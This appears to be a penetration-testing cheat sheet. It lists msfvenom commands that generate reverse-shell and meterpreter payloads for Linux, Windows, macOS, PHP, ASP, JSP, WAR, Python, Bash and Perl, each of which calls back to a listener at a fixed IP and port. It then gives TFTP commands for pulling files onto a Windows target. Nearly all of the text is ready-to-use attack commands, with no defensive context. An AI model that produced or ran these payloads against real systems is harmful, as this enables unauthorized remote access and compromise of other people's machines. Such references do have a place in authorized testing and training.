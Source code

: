 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f elf > shell.elf

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.125 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.125 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.125 LPORT=4444 -f raw > shell.pl 


## File Transfers

**tftp**

Installed on Windows XP up to 2003 by default

>mkdir /tftp

>aftpd --daemon --port 69 /tftp

>cp /file/you/want /tftp

On Windows 
>tftp -i --yourIP-- get file.exe


```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
tftp -i --yourIP-- get file.exe
```
